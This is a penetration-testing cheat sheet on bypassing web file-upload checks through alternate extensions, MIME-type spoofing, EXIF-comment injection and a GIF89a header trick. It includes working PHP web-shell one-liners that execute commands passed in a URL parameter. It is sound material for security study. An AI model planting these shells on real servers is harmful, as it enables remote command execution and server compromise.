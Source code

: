 # File upload bypass

File upload mechanisms are very common on websites, but sometimes have poor validation. This allows attackers to upload malicious files to the web server, which can then be executed by other users or the server itself. This can also happen in authenticated areas of a website \(e.g. installing WordPress plugins\)

## File extension

Developers may blacklist specific file extensions and prevent users from uploading files with extensions that are considered dangerous. This can be bypassed by using alternate extensions or even unrelated ones. For example, it might be possible to upload and execute a `.php` file simply by renaming it `file.php.jpg`.

**Alternate extensions**

| Type | Extension |
| :--- | :--- |
| php | phtml, .php, .php3, .php4, .php5, and .inc |
| asp | asp, .aspx |
| perl | .pl, .pm, .cgi, .lib |
| jsp | .jsp, .jspx, .jsw, .jsv, and .jspf |
| Coldfusion | .cfm, .cfml, .cfc, .dbm |

## MIME type

Blacklisting MIME types is also a method of file upload validation. It may be bypassed by intercepting the POST request on the way to the server and modifying the MIME type.

Normal php MIME type:

```text
Content-type: application/x-php
```

Replace with:

```text
Content-type: image/jpeg
```

## PHP getimagesize\(\)

For file uploads which validate image size using php `getimagesize()`, it may be possible to execute shellcode by inserting it into the Comment attribute of Image properties and saving it as `file.jpg.php`.

You can do this with gimp or exiftools:

```text
exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' file.jpg
mv file.jpg file.php.jpg
```

I'm not sure why some tutorials have the php extension first while others have it second. Try both.

## GIF89a; header

GIF89a is a GIF file header. If uploaded content is being scanned, sometimes the check can be fooled by putting this header item at the top of shellcode:

```text
GIF89a;
<?
system($_GET['cmd']); # shellcode goes here
?>
```

## Further reading

* [Injecting malicious PHP into an image file](http://techyzilla.blogspot.com/2012/07/injecting-malicious-php-in-to-an-image-file.html)

